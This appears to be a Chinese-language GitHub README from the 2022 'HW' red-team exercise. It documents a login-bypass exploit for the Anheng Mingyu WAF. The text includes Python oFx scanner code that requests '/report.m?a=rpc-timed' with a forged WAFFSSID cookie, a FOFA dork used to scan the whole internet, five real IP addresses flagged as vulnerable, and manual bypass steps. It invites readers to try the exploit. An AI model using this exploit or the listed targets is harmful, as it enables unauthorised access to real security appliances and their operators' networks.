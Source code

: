 # 2022HW
今年因为种种原因没有参与hw，非常遗憾，今天才终于稍微抽出一点身，加上心血来潮，想着写这么一个文档，有三个目的：
* 为了能有一份参与感，当作对hw的跟进吧
* 能让一些参与hw的师傅看了以后迅速了解oFx在全网验证POC有效性方面的能力，有兴趣的话就可以立即动手尝试一下  
* 跟笔者一样没参与hw的同学也可以拿POC来玩一玩

本文档以网络上公开的漏洞为单位，笔者会去寻找POC，然后改成oFx的POC，去全网扫描，如果有命中POC规则的资产，经过手动测试以后确认可以利用，则说明``漏洞真实``和``POC有效``，如果没有命中规则的资产，则说明``POC无效``或``漏洞真实性存疑``  

工作事忙，笔者会尽量每天一更  

## 安恒信息-明御WAF登陆绕过

根据情报，POC地址：https://github.com/midisec/pocsuite-poc/blob/main/pocs/mingyu_login_bypass.py

尝试写oFx POC：
```py
vuln = [False,""]
url = self.target + "/report.m?a=rpc-timed" # url自己按需调整

headers = {
            "Cookie": "WAFFSSID=123456",
            "User-Agent":get_random_ua(),
            "Connection":"close",
            }

try:
    """
    检测逻辑，漏洞存在则修改vuln值为True，漏洞不存在则不动
    """
    req0 = requests.get(url,headers = headers , proxies = self.proxy ,timeout = self.timeout,verify = False)
    req1 = requests.get(self.target,headers = headers , proxies = self.proxy ,timeout = self.timeout,verify = False)
    if req0.status_code == 200 and "系统管理员" in req1.text:
        vuln = [True,req1.text]
    else:
        vuln = [False,req1.text]
except Exception as e:
    raise e
```

fofa dork是：``app="安恒信息-明御WAF"``，全网资产数量165个  

扫描结果，命中规则5个资产：
```
https://61.161.193.5
https://58.244.62.126:1443
https://61.184.79.99:14443
https://222.243.158.38:10443
https://202.107.190.91:50001
```

手动验证：
假设目标url为``http://target/``  

第一步，访问``http://target/report.m?a=rpc-timed``，不用管返回结果  

第二步访问``http://target/``，如果界面长这样：
![show](../img/009.png)
就说明成功绕过登陆了


结论：漏洞真实，POC有效，已收录至oFx  